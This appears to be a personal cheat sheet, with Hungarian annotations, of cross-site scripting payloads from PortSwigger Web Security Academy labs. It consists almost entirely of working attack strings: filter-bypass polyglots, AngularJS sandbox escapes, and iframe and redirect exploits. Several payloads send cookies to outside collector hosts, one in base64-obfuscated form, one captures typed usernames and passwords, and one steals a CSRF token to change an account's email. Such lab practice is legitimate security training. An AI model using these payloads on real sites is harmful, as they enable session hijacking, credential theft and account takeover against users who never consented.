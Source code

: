 <><SCript>alert(1)</SCript>


"><svg onload=alert(1)>


<img src=1 onerror=alert(1)>

commentben:
<><img src=1 onerror=alert(1)>

javascript:alert(document.cookie)


exploit serverbe:
<iframe src="https://0a18008d03221cf38046036c00c20021.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("letesztelni") )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("letesztelni")//>\x3e


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(document['cookie']) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(document['cookie'])//>\x3e


"></select>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("letesztelni") )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("letesztelni")//>\x3e


"onmouseover="alert(1)


{{constructor.constructor('alert(1)')()}}


{{$on.constructor('alert(1)')()}}


\"-alert(1)}//


<xss id=x tabindex=1 onfocus=alert(1)><


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(1) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(2)//>\x3ea
<><img src=1 onerror=alert(3)>


<><img src=1 onerror=alert(1)>


exploit serverbe:
<script>
location = 'https://0add00df0415f10881e16b000075005b.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>


exploit serverbe:
<iframe src="https://0ae800cc04eb684982872ac0006500e6.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=document.location=`https://exploit-0a32008804f9687e82932985016800df.exploit-server.net/?kookie=`+document.cookie%3E" onload=this.style.width='100px'>


httéps://blablabla.net/ után:
?'accesskey='x'onclick='alert(1)


httéps://blablabla.net/?search= után:
%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E


\'-alert(1)//


</script><script>alert(1)</script>


Website mezőben:
http://foo?&apos;-alert(1)-&apos;


${alert(1)}


commentben:
<script>
    fetch('https://xyzbptj5cccuj168v3n6d8yklbr2ft3i.oastify.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>


commentben:
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://rid59n3zw6wo3vq2fx70x2ie55bwzond.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">


commentben:
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

===========================================================================

stage 1

PoC:
"+eval(atob("YWxlcnQoMSk="))}//

fetch("https://exploit-0a9b009e04a8929682d05f8e015100d4.exploit-server.net/?c="+btoa(document['cookie'])) base64-ezve:
ZmV0Y2goImh0dHBzOi8vZXhwbG9pdC0wYTliMDA5ZTA0YTg5Mjk2ODJkMDVmOGUwMTUxMDBkNC5leHBsb2l0LXNlcnZlci5uZXQvP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp

"+eval(atob("ZmV0Y2goImh0dHBzOi8vZXhwbG9pdC0wYTliMDA5ZTA0YTg5Mjk2ODJkMDVmOGUwMTUxMDBkNC5leHBsb2l0LXNlcnZlci5uZXQvP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp"))}//

<script>
location = "https://0a9700a504d29218829f608d009f0069.web-security-academy.net/?SearchTerm=%22%2Beval%28atob%28%22ZmV0Y2goImh0dHBzOi8vZXhwbG9pdC0wYTliMDA5ZTA0YTg5Mjk2ODJkMDVmOGUwMTUxMDBkNC5leHBsb2l0LXNlcnZlci5uZXQvP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp%22%29%29%7D%2F%2F"
</script>

stage 1

PoC: "-Function`X${a}```-"
output: Uncaught ReferenceError: a is not defined

"-Function`X${document.location="https://exploit-0a600087031e75f78385ccb001050090.exploit-server.net/aabbcc="+document.cookie}```-"

url encode key chars: https://meyerweb.com/eric/tools/dencoder/

<script>
document.location = "https://0af400410395756e83d0cdfc003a001a.web-security-academy.net/?find=%22-Function`X${document.location=%22https://exploit-0a600087031e75f78385ccb001050090.exploit-server.net/aabbcc=%22%2document.cookie}```-%22"
</script>
